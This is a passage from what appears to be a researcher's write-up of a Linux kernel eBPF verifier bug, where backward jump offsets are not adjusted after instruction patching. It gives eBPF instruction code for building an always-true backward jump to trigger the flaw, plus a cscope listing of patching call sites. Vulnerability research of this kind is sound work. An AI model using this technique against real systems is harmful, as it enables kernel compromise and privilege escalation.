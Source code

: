 In second case, for backward jumps, this is where this function fails. This
function only adjust the offset of the jump if the destination of the jump is
before the newly patched instruction, so because it's not adjust the offset of
the jump, we can using this bug to make jump to the middle of the patched
instruction.

## The Exploit  
To trigger the bug, we need to create backward jumps. I thought it was easy to
create backward jump, first idea came out to my mind is to make bounded loop.
Yes, eBPF is already support bounded loop in newer kernel, but turns out only
priv user is allowed to create bounded loop. After thinking for hours i can
solve this, this is the sample code to make backward jumps without bounded
loops  
```  
               ...  
       .--<    BPF_JMP_IMM(BPF_JLE, BPF_REG_7, 4, 25), // assume BPF_REG_7 is zero, comes from map value  
       |       BPF_MOV64_IMM(BPF_REG_0, 0x0),  
       |       BPF_EXIT_INSN(),  
       |       ...                                      <--.  
       |       ...                                         |  
       |       BPF_MOV64_IMM(BPF_REG_0, 0x0),              |  
       |       BPF_EXIT_INSN(),                            |  
       '-->    BPF_JMP_IMM(BPF_JLE, BPF_REG_7, 4, -24), >--'  
               BPF_MOV64_IMM(BPF_REG_0, 0),  
               BPF_EXIT_INSN(),  
```  
This is how backward jumps looks like, `BPF_REG_7` is just dummy value to make
the jump works, we make the jump is always true by making `BPF_REG_7` is zero,
make sure is coming from map value not from constant, otherwise eBPF can
remove the jump for optimization, just to make sure.

So we have backward jump already, the other thing we need is BPF instruction
that can expand in the kernel. To find this i just do some references on
`bpf_patch_insn_data`, here's the result.  
```  
Cscope tag: bpf_patch_insn_data  
  #   line  filename / context / line  
  1  11253  /home/n0p/research/kernel/linux-5.12.13/kernel/bpf/verifier.c
<<opt_subreg_zext_lo32_rnd_hi32>>  
            new_prog = bpf_patch_insn_data(env, adj_idx, patch, patch_len);  
  2  11292  /home/n0p/research/kernel/linux-5.12.13/kernel/bpf/verifier.c
<<convert_ctx_accesses>>  
            new_prog = bpf_patch_insn_data(env, 0, insn_buf, cnt);  
  3  11340  /home/n0p/research/kernel/linux-5.12.13/kernel/bpf/verifier.c
<<convert_ctx_accesses>>  
            new_prog = bpf_patch_insn_data(env, i + delta, patch, cnt);  
  4  11438  /home/n0p/research/kernel/linux-5.12.13/kernel/bpf/verifier.c
<<convert_ctx_accesses>>  
            new_prog = bpf_patch_insn_data(env, i + delta, insn_buf, cnt);  
  5  11765  /home/n0p/research/kernel/linux-5.12.13/kernel/bpf/verifier.c
<<fixup_bpf_calls>>  
            new_prog = bpf_patch_insn_data(env, i + delta, patchlet, cnt);  
  6  11784  /home/n0p/research/kernel/linux-5.12.13/kernel/bpf/verifier.c
<<fixup_bpf_calls>>  
            new_prog = bpf_patch_insn_data(env, i + delta, insn_buf, cnt);  
  7  11837  /home/n0p/research/kernel/linux-5.12.13/kernel/bpf/verifier.c
<<fixup_bpf_calls>>  
            new_prog = bpf_patch_insn_data(env, i + delta, insn_buf, cnt);  
  8  11923  /home/n0p/research/kernel/linux-5.12.13/kernel/bpf/verifier.c
<<fixup_bpf_calls>>  
            new_prog = bpf_patch_insn_data(env, i + delta, insn_buf, cnt);  
  9  11960  /home/n0p/research/kernel/linux-5.12.13/kernel/bpf/verifier.c
<<fixup_bpf_calls>>  
```